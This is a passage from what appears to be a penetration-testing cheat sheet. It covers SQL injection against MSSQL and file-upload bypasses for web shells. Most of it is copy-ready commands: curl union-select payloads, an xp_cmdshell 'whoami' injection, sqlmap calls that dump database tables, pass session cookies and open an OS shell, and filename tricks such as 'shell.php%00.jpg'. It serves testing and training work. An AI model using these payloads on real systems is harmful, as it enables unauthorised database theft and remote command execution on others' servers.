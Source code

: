 **Extract Database Information (MSSQL):**
```bash
# Database version
curl "http://TARGET/page.php?id=1' UNION SELECT 1,@@version,3-- "

# List databases
curl "http://TARGET/page.php?id=1' UNION SELECT 1,name,3 FROM sys.databases-- "

# List tables
curl "http://TARGET/page.php?id=1' UNION SELECT 1,name,3 FROM sys.tables-- "

# Command execution (if xp_cmdshell enabled)
curl "http://TARGET/page.php?id=1'; EXEC xp_cmdshell 'whoami'-- "
```

### sqlmap

```bash
# Basic database enumeration
sqlmap -u "http://TARGET/page.php?id=1" --batch --dbs

# Dump specific database
sqlmap -u "http://TARGET/page.php?id=1" -D database_name --tables --batch

# Dump specific table
sqlmap -u "http://TARGET/page.php?id=1" -D database_name -T users --dump --batch

# With authentication
sqlmap -u "http://TARGET/page.php?id=1" --cookie="session=abc123" --batch --dbs

# POST parameter
sqlmap -u "http://TARGET/login.php" --data="username=admin&password=test" -p username --batch

# Get OS shell (MSSQL with xp_cmdshell)
sqlmap -u "http://TARGET/page.php?id=1" --os-shell
```

## File Upload Exploitation

### Extension Bypass Techniques

```bash
# Test file upload with different extensions
shell.php
shell.php5
shell.phtml
shell.phar
shell.PhP          # Case variation
shell.jpg.php      # Double extension
shell.php.jpg      # Reverse double
shell.php%00.jpg   # Null byte (older systems)
shell.php%0a.jpg   # Newline
shell.php;.jpg     # Semicolon
shell.php%20.jpg   # Space
```
